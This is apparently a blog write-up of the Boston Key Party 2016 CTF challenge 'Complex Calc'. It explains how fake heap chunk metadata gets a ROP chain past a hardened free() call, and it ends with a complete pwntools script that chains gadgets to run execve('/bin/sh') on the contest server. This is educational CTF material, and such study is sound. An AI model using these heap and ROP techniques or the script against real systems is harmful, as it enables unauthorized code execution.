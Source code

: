 ```yaml
---
layout: post
title:  "Boston Key Party - PWN 5 ‘Complex Calc’"
date:   2016-03-06
categories: ctf pwn
---
```


Taking a quick look at this binary, we see it's almost idenfical to the 'Simple Calc'. Testing my ROP chain on it, however, crashes in `free`: It looks like `free(0)` won't fly anymore.

To confirm that my ROP was still valid, I set a breakpoint on the call to `free` and manually wrote the pointer to the original buffer into RDI. With this, my ROP indeed did work and I could focus on passing the `free` call.

Peeking into the implementation of `free`, we see that a few NOPs were added to prevent us from providing 0 as the pointer. Looking a bit further, we see `[rdi-8]` and `[rdi-10h]` are referenced. That means that the metadata for the structure exists just _before_ the block.

Breaking on the `malloc` call, and inspecting the memory around, we see that 16 bytes before the returned pointer seems to be always null, while -8 is some odd number. Playing around with the number of calculations requested we see that this number grows with size: It's the size of the block, plus the size of the metadata, then aligned to some multiple of 16.

{% highlight bash %}
0x000000000040143f in main ()
gdb-peda$ x/4gx $rax - 0x10
0x6c8bc0:       0x0000000000000000      0x0000000000000021
0x6c8bd0:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

I got lucky in that I already know about about how free works to not have to figure out why the size value is odd: The low bit represents whether or not the allocation is in use. When `free` is called, the bit is set to 0, but also the next block is checked. If that block is also not in use, then the two blocks are coalesced. This is to try to prevent memory fragmentation.

The next block can easily be found by adding the size to the current allocation:

{% highlight bash %}
gdb-peda$ x/4gx $rax - 0x10 + 0x20
0x6c8be0:       0x0000000000000000      0x0000000000020421
0x6c8bf0:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

If we want the `free` call to pass, then we are going to need to pass it a pointer memory that has what looks like a valid malloc block 16 bytes before it. On top of that, we need the _next_ block (determined by adding the _size_ to the pointer) has a _size_ value that is odd, to prevent coalescing.

Luckily for us, we can do just that: In our last ROP we only needed a few of the global vars (`sub` and `divv`), leaving us `add` and `mul` to fill with allocation metadata. Testing with a valid allocation, I confirmed that garbage data at -0x10 doesn't seem to affect the freeing, making our job easier.

Since the ROP is the same, we should only need a few changes:
1. Instead of writing NULL on the stack, we need to be careful to overwrite the buf pointer with a pointer to our fake allocation.
2. We need to write two blocks of junk metadata. The first must have a size that is the correct distance away from the second and have the low bit set. The second must only have the low bit set.

I spent _way_ too much time trying to make these metadata blocks contiguous (16 bytes apart), but eventually realized that the minimum distance is the minimum alloc (1) plus the size of the metadata (16) rounded up. Lucky for us, `add` and `mul` are indeed that distance.

I populated the first block by providing two numbers to the app opration whose sum is 0x21. This required a negative number, since there was an unsigned check to ensure the operant is greater than 39.

The second number was easier: I just needed to populate it with any odd number, and the result of 41*41 fit the bill.

What's important to note is that I don't provide `free` a pointer to the metadata, but 16 bytes beyond that, which is `divv`, where I had placed the string "/bin/sh\0". This, I would find out, is very important...

Excitedly running the new exploit and... crash. Wtf? Breaking into it with a debugger and following through the ROP, I saw that my string had been wiped out. Stepping through main, I realized that because I was freeing `divv`, it was getting zeroed out.

Now the issue I had with 'Simple Calc' ended up helping me out: Because I had had to find and use a write mem gadget to get rid of `_dl_tls_static_used`, I was prepared for this: Instead of writing to the global `divv` using calculation caching, I would instead write it _after_ the free as extra ROPs.

{% highlight python %}
import struct

def write_addr(addr):
    return ADD + str(addr-40) + "\n" + "40\n" + NULL

# Commands
ADD = "1\n"
SUB = "2\n"
MUL = "3\n"
DIV = "4\n"
DONE = "5\n"
NULL = SUB+"40\n"+"40\n"
# Gadgets
POP_RDI = write_addr(0x00401b73)
POP_RAX = write_addr(0x0044db34)
POP_RDX = write_addr(0x00437a85)
POP_RSI = write_addr(0x00401c87)
MOV_EDX_TO_AT_RAX = write_addr(0x0044526f)
SYSCALL = write_addr(0x004648e5)
# Globals
addX = 0x6C4A80
addY = addX + 4
addRes = addY + 4
divX = addRes + 8
divY = divX + 4
divRes = divY + 4
mulX = divRes + 8
mulY = mulX + 4
mulRes = mulY + 4
subX = mulRes + 8
subY = subX + 4
subRes = subY + 4
_dl_tls_static_used = 0x6C4AC0

# Builds commands
commands = [
    "100\n",  # Any large number
    write_addr(addX+16)*9,  # Fill stack with address of divX. This will wipe it out :(
    # Set _dl_tls_static_used to 0
    POP_RAX,
    write_addr(_dl_tls_static_used),
    POP_RDX,
    NULL, NULL,
    MOV_EDX_TO_AT_RAX,
    # Put "/bin/sh" at divX using ROP
    POP_RAX,
    write_addr(divX),
    POP_RDX,
    write_addr(struct.unpack("<I", b"/bin")[0]),
    MOV_EDX_TO_AT_RAX,
    POP_RAX,
    write_addr(divY),
    POP_RDX,
    write_addr(struct.unpack("<I", b"/sh\x00")[0]),
    MOV_EDX_TO_AT_RAX,
    # Now get ready for syscall
    POP_RDI,
    write_addr(divX),  # divX holds the string "/bin/sh"
    POP_RAX,
    SUB + str(0x3b + 0x1000) + "\n" + "4096\n" + NULL,  # 0x3b = execve
    POP_RDX,
    NULL, NULL,  # RDX should be null
    POP_RSI,  # RSI should point to an array that has a pointer to "/bin/sh" and a null pointer
    write_addr(subY),
    SYSCALL,
    # Now we need to populate the global vars by running extra calcs
    # -- Put pointer to divX at subY with null after
    SUB + str(divX) + "\n" + str(divX) + "\n",
    # Now we need to put two malloc blocks in add and mul
    # The first 8 bytes (x and y) don't matter, it's the result that does
    ADD + "-123\n" + "156\n",  # sum is 0x21
    MUL + "41\n" + "41\n",  # product is odd
    DONE
]

from pwn import *

r = remote("simplecalc.bostonkey.party", 5500)
garbage = r.recv()
r.send("".join(commands))
r.interactive()
{% endhighlight %}
